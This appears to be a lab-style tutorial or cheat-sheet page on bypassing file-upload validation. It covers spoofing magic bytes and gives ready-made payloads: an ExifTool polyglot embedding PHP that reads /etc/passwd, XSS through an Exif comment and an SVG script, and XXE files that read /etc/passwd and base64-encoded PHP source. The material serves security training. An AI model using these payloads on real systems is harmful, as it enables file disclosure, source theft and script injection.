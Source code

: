 Instead of implicitly trusting the `Content-Type` HTTP header, most secure websites try to verify the contents of the file or the specific sequence of bytes in the file's header or footer.

In cases of an image upload function, some applications might try to verify certain properties of an image, such as its dimensions. So if an attacker is trying to upload a PHP script, which doesn't have dimensions, the application can recognize this and reject the upload accordingly.

In other cases, an application might try to verify a file's magic bytes - which is a sequence of bytes in a file's header of footer used as a fingerprint or signature to determine whether the file contents match the expected file type. For example, JPEG files always begin with the bytes `FF D8 FF`. An attacker can use `hexedit` to modify the file's magic bytes based on a [public list](https://en.wikipedia.org/wiki/List_of_file_signatures) of file signatures.

However, even the most robust way of validating a file isn't foolproof. Special tools such as `ExifTool`, can be used to create polyglot JPEG file containing malicious code within its metadata. For example:
```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" image.jpg -o polyglot.php
```
## Chaining File Upload Vulnerabilities with XSS and XXE
The technique can also be used to introduce different vulnerabilities via file upload. These includes XSS, XXE, or DoS.
### XSS via Exif Comment
```bash
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
```
### XSS via SVG
Save the following as `HTB.svg` and upload it.
```svg
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```
### XXE
Save the following as `HTB.svg` and upload it.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
XXE can also be used to read source code in PHP web applications using the following:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```